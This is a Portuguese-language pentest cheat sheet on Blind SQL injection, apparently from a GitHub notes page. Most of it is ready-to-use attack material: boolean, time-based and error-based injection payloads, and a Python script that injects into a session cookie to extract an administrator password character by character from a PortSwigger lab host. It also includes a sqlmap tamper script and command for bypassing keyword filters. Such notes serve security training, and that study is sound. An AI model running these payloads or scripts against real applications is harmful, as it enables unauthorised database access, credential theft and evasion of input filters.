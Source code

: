 Basicamente uma aplicação é vulnerável a Blind SQL Injection quando não retorna nenhum resultado como resposta aos códigos SQL injetados. Neste cenário, códigos contendo UNION não são efetivos, e é necessário usar códigos condicionais para extrair informações da base de dados. 

:fries:Checklist

- Boolean-based Blind SQLi
<p>Se a aplicação mudar a resposta ao enviar uma sentença falsa, isso é um indício de que a aplicação está vulnerável.</p>

```
' AND 1=1 -- - (true)
' AND 1=2 -- - (false)
```
- Time-based Blind SQLi
<p>Códigos com 'SLEEP' ou 'BENCHMARCK' forçam a base de dados a esperar 10 segundos quando a condição é verdadeira. Se a resposta tiver um delay de 10 segundos (ou outro valor adicionado ao comando), isso indica que o payload funcionou, e a aplicação está vulnerável. </p>

```
/* Multicontext */
SLEEP(10)
SLEEP(10) /*' or SLEEP(10) or '" or SLEEP(10) or "*/

/* MySQL only */
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```
- Error-based Blind SQLi
<p>Apesar do Blind SQL Injection não retornar uma mensagem de erro convencional, quando usamos CASE para testar uma condição, podemos obter o retorno de "strings", e fazer o mapeamento de informações a partir dessa resposta. </p>

```
 ' OR (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT database()),1,1)) = 'a') THEN CAST('' AS INT) ELSE 'a' END) -- ';
 
 select substring(database(),1,1)
 
 ' and substring(@@version,1,1)='[valor-para-testar]
```
### Burp Suite to exploit Blind SQLi
<p>Instale a extensão "Copy as Python-Requests" do Burp Suite e use a requisição para realizar a exploração do Blind SQL Injection. 
Script de exemplo para exploração do Blind SQLi com respostas condicionais.</p>
[Burp Lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)
<br></br>

```
import requests
import string

burp0_url = "https://[host]"
burp0_cookies = {"TrackingId": "2OhtAv5umLt0e9Yg", "session": "2yNubi9Et3RQFcH4WCBFiX3LO8RurQ21"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Referer": "https://0ae100df03b5e2d68630f39d00cd0013.web-security-academy.net/filter?category=Gifts", "Dnt": "1", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Te": "trailers"}

char_set = string.ascii_lowercase + string.digits
password = ''

for position in range(1,21):
    for char in char_set:
        burp0_cookies["TrackingId"] = f"2OhtAv5umLt0e9Yg' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username = 'administrator')='{char}"
        print(f"Testando: {position}:{char}")
        response = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

        if "Welcome" in response.text:
            print(f"Found {position}:{char}")
            password += char
            break
print(f"Pass: {password}")
```
### Script para bypass de filtro de palavras 
<p>Use o script abaixo com a opção Tamper do SQLMap</p>

```
#!/usr/bin/env python
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces each keyword a CaMeLcAsE VeRsIoN of it.

    >>> tamper('INSERT')
    'InSeRt'
    """

    retVal = str()

    if payload:
        for i in xrange(len(payload)):
            if (i % 2 == 0):
                # We cannot break 0x12345
                if not ((payload[i] == 'x') and (payload[i-1] == '0')):
                    retVal += payload[i].upper()
                else:
                    retVal += payload[i]
            else:
                retVal += payload[i].lower()
    return retVal
```
#### Execução do script 
```
sqlmap -u 'http://[URL]/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/camelcase.py --prefix="nonexistent'" --suffix=';#' --union-char=els --banner
```

